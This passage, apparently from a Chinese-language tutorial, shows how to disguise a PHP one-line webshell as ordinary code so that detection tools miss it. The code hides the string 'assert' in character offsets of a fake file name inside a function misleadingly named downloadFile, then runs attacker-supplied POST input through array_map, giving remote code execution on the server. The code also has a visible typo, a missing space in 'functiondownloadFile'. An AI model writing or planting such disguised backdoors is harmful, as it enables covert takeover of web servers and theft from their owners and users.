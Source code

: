 ![1级](ex_15.png)

1级了，离目标近在咫尺了，这时候我们应该考虑让一句话木马像正常的代码，在好好的封装一下

```php
<?php
functiondownloadFile($url,$x){
    $ary = parse_url($url);
    $file = basename($ary['path']);
    $ext = explode('.',$file);
    // assert 
    $exec1=substr($ext[0],3,1);
    $exec2=substr($ext[0],5,1);
    $exec3=substr($ext[0],5,1);
    $exec4=substr($ext[0],4,1);
    $exec5=substr($ext[0],7,2);
    $as[0] = $exec1 . $exec2 . $exec3 . $exec4 . $exec5;
    $as[1] = $x;
    return $as;
}

$a = $_POST['x'];
$s = downloadFile('http://www.baidu.com/asdaesfrtafga.txt',$a);
$b = $s[0];
$c = $s[1];
array_map($b,array($c));
```
